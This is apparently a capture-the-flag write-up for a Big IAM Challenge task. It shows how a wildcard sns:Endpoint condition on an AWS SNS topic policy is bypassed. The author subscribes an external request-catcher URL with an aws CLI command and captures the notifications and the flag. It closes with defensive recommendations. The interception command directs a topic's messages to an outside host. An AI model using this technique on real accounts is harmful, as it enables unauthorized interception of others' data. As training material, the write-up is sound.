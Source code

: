 # Writeup for Big IAM Challenge: Challenge 3

# Challenge number

    3

## Challenge Statement

The goal of Challenge 3 is to exploit an overly permissive IAM policy on an Amazon SNS topic to subscribe without authorization, intercept notifications, and capture the flag within the message. The challenge highlights the risks of weak access controls in cloud environments.

## IAM Policy

```
{
    "Version": "2008-10-17",
    "Id": "Statement1",
    "Statement": [
        {
            "Sid": "Statement1",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": "SNS:Subscribe",
            "Resource": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
            "Condition": {
                "StringLike": {
                    "sns:Endpoint": "*@tbic.wiz.io"
                }
            }
        }
    ]
}
```

### Short analysis about the IAM policy

```
* What do I have access to?
  - The policy allows anyone (Principal: "*") to subscribe to the TBICWizPushNotifications SNS topic as long as the subscription endpoint matches *@tbic.wiz.io.

* What don't I have access to?
  - The policy does not grant access to publish messages or manage the topic itself, limiting interaction to subscribing and receiving notifications.

* What do I find interesting?
  - The condition in the policy (sns:Endpoint: "*@tbic.wiz.io") limits subscriptions to specific email addresses, but it’s still overly permissive, allowing external users with matching domains to exploit this.
```

## Solution

### Step 1: Set Up a Custom Endpoint

To bypass the sns:Endpoint condition, I utilized Request Catcher (https://requestcatcher.com/). I created a custom catcher endpoint:

```
https://anil.requestcatcher.com/
```

This endpoint could receive and log HTTP requests, allowing me to intercept messages sent by SNS.

### Step 2: Subscribed to the SNS Topic

Using the custom endpoint, I executed the following command to subscribe to the TBICWizPushNotifications SNS topic:

```
aws sns subscribe \
    --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications \
    --protocol https \
    --notification-endpoint 'https://anil.requestcatcher.com/test@tbic.wiz.io'
```

The command returned a Subscription ARN, confirming that the subscription request was successful.

### Step 3: Confirmed the Subscription

After running the `aws sns subscribe` command, the response indicated the subscription was in a "pending confirmation" state:

```
{
    "SubscriptionArn": "pending confirmation"
}
```

To confirm the subscription, I checked the logs of my Request Catcher endpoint (https://anil.requestcatcher.com/test@tbic.wiz.io). The logs showed an HTTP POST request containing the SubscriptionConfirmation message, which included a SubscribeURL to confirm the subscription.

### Step 4: Captured the Flag

After confirmation, I waited for notifications to be sent to the topic. Shortly after, a new request was logged in Request Catcher with the message content:

```
{
  "Type" : "Notification",
  "MessageId" : "cf626a84-6014-5f7b-ae44-0a8b6c00f0f6",
  "TopicArn" : "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
  "Message" : "{wiz:always-suspect-asterisks}",
  "Timestamp" : "2025-01-25T15:57:08.497Z"
}
```

I extracted the flag from the Message field:

```
FLAG: {wiz:always-suspect-asterisks}
```

### Step 5: Submitted the Flag

Finally, I inserted the flag found in the "Insert flag here" textbox and was redirected to the success screen.

## Reflection

- **What was your approach?**  
  I bypassed the sns:Endpoint condition by using Request Catcher to simulate a valid endpoint and successfully intercepted SNS notifications.

- **What was the biggest challenge?**  
  The challenge was ensuring that the custom endpoint met the policy's condition while being able to capture and log requests.

- **How did you overcome the challenges?**  
  Using Request Catcher allowed me to create a compliant endpoint (https://anil.requestcatcher.com/) and efficiently capture the confirmation and notification messages.

- **What led to the breakthrough?**  
  Understanding that sns:Endpoint conditions validate the domain pattern but do not verify endpoint ownership enabled me to bypass this restriction. Request Catcher proved to be an invaluable tool to simulate an endpoint and capture SNS traffic.

- **On the Blue Side: Defensive Measures**  
  - Restrict the Principal: Replace `Principal: "*"` with trusted roles or accounts to limit unauthorized access.
  - Use endpoint verification: Ensure that endpoints are owned or managed by the intended recipients using tokenized confirmation processes.
  - Disable overly broad conditions: Replace wildcard conditions like `sns:Endpoint: "*@tbic.wiz.io"` with specific allowed endpoints.
  - Monitor subscriptions and logs: Regularly audit SNS subscriptions and logs for suspicious activities.
  - Enable encryption: Use message encryption to protect sensitive data in transit.

This challenge highlights the importance of securing SNS topics to prevent unauthorized access and data leaks.

